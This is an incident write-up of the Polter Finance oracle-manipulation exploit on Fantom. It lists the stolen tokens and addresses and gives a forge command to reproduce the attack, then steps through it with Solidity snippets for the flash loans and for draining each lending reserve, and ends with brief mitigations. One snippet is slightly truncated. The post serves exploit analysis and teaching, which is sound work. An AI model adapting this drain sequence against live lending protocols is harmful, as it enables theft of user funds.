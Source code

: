 # Exploited Polter Finance
- **Type:** Exploit
- **Network:** Fantom
- **Total lost:** ~ 8.7 M 
- **Category:** Oracle Manipulation
- **Vulnerable contracts:**
- - [0x867fAa51b3A437B4E2e699945590Ef4f2be2a6d5](https://ftmscan.com/address/0x867fAa51b3A437B4E2e699945590Ef4f2be2a6d5#code)
- **Tokens Lost**
- - 9,129,844 WFT
- - 26.69     BOO
- - 475.24    WSOL
- - 0.23      WBTC
- - 10.96     WETH
- - 8763      MIM
- - 56,881    USDC
- - 1,997,342 sFTMX
- - 26,002    axlUSDC
- **Attack transactions:**
- - [0x5118df23e81603a64c7676dd6b6e4f76a57e4267e67507d34b0b26dd9ee10eac](https://ftmscan.com/tx/0x5118df23e81603a64c7676dd6b6e4f76a57e4267e67507d34b0b26dd9ee10eac)

- - Deployer EOA: [0x511f427Cdf0c4e463655856db382E05D79Ac44a6](https://ftmscan.com/address/0x511f427Cdf0c4e463655856db382E05D79Ac44a6)

- **Attack Block:**: 97508838 
- **Date:** Nov 16, 2024
- **Reproduce:** `forge test --match-contract Exploit_Polter_Finance -vvv`

## Step-by-step Overview

1. Setup (Get Initial Flash Loan)
    - Flash loan BOO tokens from SpookySwap V3 pool
    - Prepare for subsequent operations with obtained liquidity

2. Additional Liquidity (V2 Flash Swap)
    - Perform V2 flash swap to get additional BOO tokens
    - This provides more tokens for the attack setup

3. Collateral Setup
    - Deposit minimal collateral (1e18 BOO) into Polter Finance

4. Exploit Execution
    - Systematically drain multiple token reserves through uncollateralized borrowing
    - Target high-value tokens in sequence
    - Transfer stolen assets to attacker address

5. Flash Loan Repayment
    - Swap 5000 WFTM back to BOO tokens
    - Repay flash loan obligations
    - Keep remaining stolen assets as profit

## Detailed Description

1. Gets BOO tokens through SpookySwap V3 flash loan to initiate the attack:

```solidity
// Initial flash loan from V3 pool
pairWftmBooV3.flash(address(this), 0, BOO.balanceOf(address(pairWftmBooV3)), "");

// Flash callback handling
function uniswapV3FlashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external {
    uint256 repay = BOO.balanceOf(address(this)) + fee1;
    // Further attack steps...
}
```

2. Leverages V2 flash swap to obtain more BOO tokens:

```solidity
pairWftmBooV2.swap(0, BOO.balanceOf(address(pairWftmBooV2)) - 1e3, address(this), "0");

// V2 callback implementation
function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) external {
    BOO.approve(address(Lending), 1e18);
    // Initialize exploit sequence...
}
```

3. Sets up minimal collateral and exploits borrowing mechanism:

```solidity
unction exploitToken(IERC20 token) public {
    // Get reserve data for target token
    ILendingPool.ReserveData memory reserveData = Lending.getReserveData(address(token));
    // Execute uncollateralized borrow
    Lending.borrow(address(token), token.balanceOf(reserveData.aTokenAddress), 2, 0, address(this));
    // Transfer stolen tokens
    token.transfer(address(this), token.balanceOf(address(this)));
}

```

4. Systematically drains multiple token reserves:

```solidity
// Execute exploit across multiple tokens
exploitToken(WFTM);
exploitToken(MIM);
exploitToken(sFTMX);
exploitToken(axlUSDC);
exploitToken(WBTC);
exploitToken(WETH);
exploitToken(USDC);
exploitToken(WSOL);
```

5. Repays flash loans and finalizes profit

```solidity
function swapWftmToBoo(uint256 _amountOut) internal {
    address[] memory path = new address[](2);
    path[0] = address(WFTM);
    path[1] = address(BOO);
    Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        _amountOut, 0, path, address(this), block.timestamp + 3600
    );
}

```


## Possible mitigations

1. Implement decentralized oracles with multi-source price feeds to prevent price manipulation.
2. Use TWAP oracles to protect against flash loan attacks and price volatility.

## Sources and references

- [@0xNickLFranklin tweet](https://x.com/0xNickLFranklin/status/1858402633935126969)
- [@Bcpaintball26 tweet](https://x.com/Bcpaintball26/status/1857865758551805976)
